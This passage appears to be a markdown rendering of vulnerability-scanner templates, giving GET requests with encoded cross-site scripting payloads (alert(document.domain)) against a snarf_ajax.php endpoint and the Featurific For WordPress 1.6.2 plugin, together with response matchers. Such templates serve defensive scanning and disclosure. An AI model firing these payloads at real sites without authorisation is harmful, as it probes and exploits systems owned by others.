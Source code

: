- {{BaseURL}}/snarf_ajax.php?url=1&ajax=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

### Matchers

**Type - word**

- words
  1. \</script>\<script>alert(document.domain)\</script>
- part - body

**Type - status**

- status
  1. 200

**Type - word**

- part - header
- words
  1. text/html

---

# Featurific For WordPress 1.6.2 - Cross-Site Scripting

## Description

- A cross-site scripting vulnerability in cached_image.php in the Featurific For WordPress plugin 1.6.2 for WordPress allows remote attackers to inject arbitrary web script or HTML via the snum parameter.
- severity - medium
- tags - cve,cve2011,wordpress,xss,wp-plugin

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/featurific-for-wordpress/cached_image.php?snum=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

### Matchers

**Type - word**

- words
  1. \</script>\<script>alert(document.domain)\</script>
- part - body

**Type - word**

- part - header
- words
  1. text/html
